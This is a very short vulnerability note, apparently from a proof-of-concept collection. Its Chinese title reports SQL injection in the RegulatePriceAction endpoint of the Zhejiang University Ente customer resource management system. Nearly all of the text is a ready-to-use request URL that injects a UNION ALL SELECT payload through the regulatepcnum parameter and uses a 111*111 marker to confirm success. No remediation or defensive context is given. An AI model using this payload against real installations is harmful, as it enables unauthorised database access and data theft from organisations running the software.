 ## 浙大恩特客户资源管理系统-RegulatePriceAction存在SQL注入

## poc
```
/entsoft/RegulatePriceAction.entsoft;.js?method=getRegulatePricedlist&regulatepcnum=1'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,111*111--+aaaa

```
